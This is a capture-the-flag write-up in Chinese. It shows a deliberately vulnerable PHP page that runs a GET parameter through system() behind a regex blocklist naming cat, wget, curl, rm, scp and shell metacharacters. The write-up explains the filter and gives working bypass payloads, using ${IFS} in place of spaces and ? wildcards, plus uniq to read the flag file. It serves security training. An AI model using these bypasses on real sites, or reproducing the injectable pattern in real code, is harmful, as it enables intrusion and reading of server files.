



```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

more

wget

less

head

sort

tail

sed

cut

tac

awk

strings

od

curl

nl

scp

rm

`

%

\x09即制表符

\x26即&符号

\>

\<


且命令

.\*c.\*a.\*t.\*

中间这些.*表示很多内容，也就是说包含cat这样的会被匹配过滤

那么如cat，c123415rsda12zs123t等凡是拼接cat的都会被匹配

因此我们不能直接写ca?，这样是匹配不到命令


### 第一种

利用${IFS}绕过空格

利用?匹配字符

```
?c=ls
```



```
?c=/bin/ca?${IFS}????.???
```




### 第二种

利用uniq

```
?c=uniq${IFS}????.???
```


